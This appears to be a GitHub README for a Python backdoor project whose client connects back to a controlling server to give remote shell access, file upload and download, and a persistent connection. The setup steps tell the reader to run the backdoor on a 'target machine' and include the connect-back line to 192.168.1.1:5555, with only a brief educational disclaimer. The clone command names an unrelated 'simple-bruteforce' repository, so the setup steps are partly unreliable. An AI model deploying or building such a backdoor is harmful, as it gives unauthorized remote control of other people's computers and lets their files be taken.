 # 🐍 Backdoor and Server Project

This project is a Python implementation of a simple backdoor and server communication system. The backdoor (`backdoor.py`) connects to a server (`server.py`) to execute commands, transfer files, and maintain communication.

⚠️ **Disclaimer:** This code is for educational purposes only. Unauthorized use or deployment of this code for malicious purposes is strictly prohibited and may be illegal. Use responsibly and ethically.

---

## 🚀 Features

- 📡 Persistent backdoor connection
- 🔄 File upload and download functionality
- 🖥️ Remote shell execution
- 🗂 Directory navigation support

---

## 📂 Project Structure

    ├── backdoor.py   # Backdoor script to connect to the server
    ├── server.py     # Server script to manage the backdoor
    
## ⚙️ Setup

1. Ensure you have Python 3.x installed on both server and target machines.

2. Clone or download this repository:
   ```bash
    git clone https://github.com/fadlyfatih1/simple-bruteforce.git
    cd simple-bruteforce
   ```

3. Update the IP address in both backdoor.py and server.py to match the server's IP:
   ```bash
    s.connect(('192.168.1.1', 5555))  # In backdoor.py
    sock.bind(('192.168.1.1', 5555))  # In server.py
   ```
   
4. Running the server:
    ```bash
    python3 server.py
    ```

5. Running the Backdoor on target machine:
    ```bash
    python3 backdoor.py
    ```

## 📜 Usage
Example Commands
- Change Directory: cd /path/to/directory
- Upload File: upload example.txt
- Download File: download example.txt
- Execute Shell Command: ls -la
- Terminate Connection: quit

## 📌 Note
This repository is not responsible for any harm or damage caused by improper use of this code. Always adhere to ethical hacking guidelines and ensure compliance with the law.
